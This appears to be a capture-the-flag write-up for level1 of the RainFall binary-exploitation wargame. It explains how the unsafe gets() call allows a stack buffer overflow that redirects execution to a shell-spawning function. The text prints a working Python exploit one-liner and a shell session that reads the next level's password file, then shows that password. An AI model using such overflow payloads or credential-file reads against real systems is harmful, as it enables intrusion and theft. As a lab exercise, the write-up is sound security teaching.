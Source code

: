 ## Context

There is an executable file named level1. Once started, the program waits for the user's input and then quits.

Using gdb, we can see that the program has two functions (using the `info functions` command): a main() and a run() function. The run() function displays a string on the standard output before launching a shell. The main() function records the user's input in a buffer with the gets() function. Check the [source.c file](source.c) for more details.

## Lead

We note that the run() function is never called. However, it should be possible to call it anyway, by exploiting the security hole of the gets() function. Indeed this function is vulnerable to buffer overflow attacks since the size of the user input is never checked.

## exploit

After several attempts, we find that the buffer overflows with 76 characters. Beyond that, we overwrite the return address of the function contained in the eip (Index Pointer) register. So let's try here to pass the address of the run() function (0x0804844, found in gdb with the command `info functions`). There is a little trick: the addressing must be done in the little endian convention, that is to say from the least significant byte to the most significant byte, because that is how most computers work nowadays.

```
level1@RainFall:~$ python -c "print 'a' * 76 + '\x44\x84\x04\x08'" > /tmp/overflow
level1@RainFall:~$ cat /tmp/overflow | ./level1 
Good... Wait what?
Segmentation fault (core dumped)
```

Ok, so first victory: we manage to go through the run() function. However, we leave the program before we can do our little business. We must find a way to keep the program open. To do this, we can add '-' after the cat, so the program will read on the standard input until it meets an EOF ('^D') character.

```
level1@RainFall:~$ cat /tmp/overflow - | ./level1 
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We can now reach the next level with the command `su level2` and fill in the flag found as a password.